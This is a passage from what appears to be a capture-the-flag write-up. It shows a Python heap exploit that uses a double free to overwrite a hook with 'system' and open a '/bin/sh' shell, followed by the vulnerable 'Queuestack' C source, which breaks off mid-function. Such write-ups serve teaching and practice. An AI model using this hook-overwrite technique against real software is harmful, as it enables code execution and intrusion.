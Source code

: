 ```python
malloc("right", 2, b'');

for i in range(0x10):
    malloc("left", 3, b'1' * 0x40);
free("left", 4);

free("right", 2);
free("right", 2);
malloc("right", 3, b'A' * 0x30 + p64(base+hook).replace(b'\x00', b''));
malloc("right", 3, b'\xff'*6);
malloc("right", 3, p64(base+system).replace(b'\x00', b''));
malloc("right", 1, b"/bin/sh");
free("right", 1);

io.interactive();
```

The program allocated 4 queuestack structures in an array and allowed you to call pushleft, pushright, popleft, or popright on the queues.
```c
typedef struct Queuestack {
  char* cards[6];
  int head, tail;
} Queuestack;

void popleft(Queuestack* q) {
  if (q->head == q->tail) {
    puts("Queuestack is empty");
    return;
  }
  free(q->cards[q->head % 6]);
  q->head++;
}

void popright(Queuestack* q) {
  if (q->head == q->tail) {
    puts("Queuestack is empty");
    return;
  }
  free(q->cards[(q->tail-1) % 6]);
  q->tail--;
}


void pushleft(Queuestack* q, char* content) {
  if (q->tail - q->head >= 6) {
    popright(q);
  }
  int len = strlen(content);
  char* card = malloc(len+1);
  q->cards[(q->head - 1) % 6] = card;
  q->head--;
  strncpy(card, content, len);
  card[len] = '\0';
}

void pushright(Queuestack* q, char* content) {
  if (q->tail - q->head >= 6) {
    popleft(q);
  }
  int len = strlen(content);
  char* card = malloc(len+1);
  q->cards[(q->tail) % 6] = card;
  q->tail++;
```
